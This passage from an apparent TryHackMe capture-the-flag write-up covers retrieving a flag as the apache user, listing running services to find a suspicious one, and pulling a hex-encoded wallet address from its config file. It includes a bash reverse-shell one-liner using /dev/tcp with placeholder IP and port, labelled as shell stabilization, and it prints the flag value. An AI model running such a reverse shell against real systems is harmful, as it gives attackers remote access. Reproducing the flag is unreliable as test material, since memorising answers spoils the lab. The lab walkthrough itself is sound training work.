 **Result:** Shell access as `apache`.

---

## 4. Flag Retrieval and Shell Stabilization

### First Flag

Located the first flag in the web directory:

```bash
cat /var/www/html/650c844110baced87e1606453b93f22a.txt
# Output: THM{fl46_650c844110baced87e1606453b93f22a}
```

### Shell Stabilization

Upgraded to a stable shell using `bash`:

```bash
bash -c 'exec bash -i &>/dev/tcp/[YOUR_IP]/[YOUR_PORT] <&1'
```

---

## 5. Suspicious Service Analysis

### Identifying the Service

Listed running services to identify the suspicious one:

```bash
systemctl list-units --type=service --state=running
```

**Finding:** A service with "TRYHACK3M" in its description.

### Service Configuration

Examined the service configuration file:

```bash
cat /lib/NetworkManager/inet.conf
```

**Result:** Encoded wallet address found.

---

## 6. Wallet Address Decoding

Decoded the wallet address using CyberChef:

**Encoded:**  
`5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d`
